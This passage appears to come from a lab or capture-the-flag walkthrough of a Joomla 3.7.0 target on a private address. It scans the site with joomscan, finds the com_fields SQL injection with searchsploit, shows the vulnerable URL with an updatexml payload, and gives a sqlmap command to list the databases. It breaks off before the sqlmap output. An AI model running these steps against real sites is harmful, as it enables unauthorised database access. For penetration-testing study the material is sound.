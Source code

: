 ```
joomscan --url "http://192.168.0.106"
```

**Result (important lines):**

```
[+] Detecting Joomla Version
[++] Joomla 3.7.0
[+] admin finder
[++] Admin page : http://192.168.0.106/administrator/
```

We have the Joomla version (`3.7.0`) and the administrator login path.

---

## Step 5 — Find known vulnerabilities

Search for public exploits for Joomla 3.7.0:

```
searchsploit "Joomla 3.7.0"
```

**Result (notable entry):**

```
Joomla! 3.7.0 - 'com_fields' SQL Injection — php/webapps/42033.txt
```

Copy and inspect the exploit details:

```
# Copy exploit locally for review
searchsploit -m php/webapps/42033.txt
```

Exploit mentions a vulnerable URL pattern, e.g.:

```
URL Vulnerable: http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27
```

Try the vulnerable URL against the target to confirm SQL error / vulnerability presence.

---

## Step 6 — Use sqlmap to enumerate databases

Run `sqlmap` against the vulnerable parameter to list databases:

```
sqlmap -u "http://192.168.0.106/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p "list[fullordering]" --batch
```

**Result:**
